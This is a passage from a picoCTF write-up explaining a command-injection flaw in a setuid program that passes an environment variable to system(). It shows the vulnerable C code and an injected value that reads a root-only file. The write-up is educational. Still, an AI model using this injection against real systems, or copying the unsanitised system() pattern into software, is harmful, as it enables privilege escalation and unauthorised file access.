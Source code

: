 ### The Vulnerability

The program is doing something like:
```c
char* secret_dir = getenv("SECRET_DIR");
char command[256];
sprintf(command, "ls %s", secret_dir);
setuid(0);  // Become root
setgid(0);  // Become root group
system(command);  // Execute with shell
```

**The Problem**: The `system()` function passes the command to `/bin/sh -c`, which interprets shell metacharacters. No input sanitization is performed!

## Exploitation

### Understanding Command Injection

Since the program constructs a command like `ls [our_input]` and passes it to `system()`, we can inject additional commands using shell operators:

- `;` - Command separator
- `&` - Run in background
- `&&` - Logical AND
- `||` - Logical OR
- `|` - Pipe

### The Successful Exploit

```bash
ctf-player@pico-chall$ export SECRET_DIR="/root & cat /root/flag.txt"
ctf-player@pico-chall$ ./bin
Listing the content of /root & cat /root/flag.txt as root: 
flag.txt
picoCTF{Power_t0_man!pul4t3_3nv_d0cc7fe2}
```

### What Happened?

The program executed:
```bash
system("ls /root & cat /root/flag.txt")
```

This runs two commands:
1. `ls /root` - Lists the directory (shows "flag.txt")
2. `cat /root/flag.txt` - Displays the flag content

Both execute with root privileges due to the `setuid(0)` call.

## Technical Deep Dive

### Why Environment Variables?
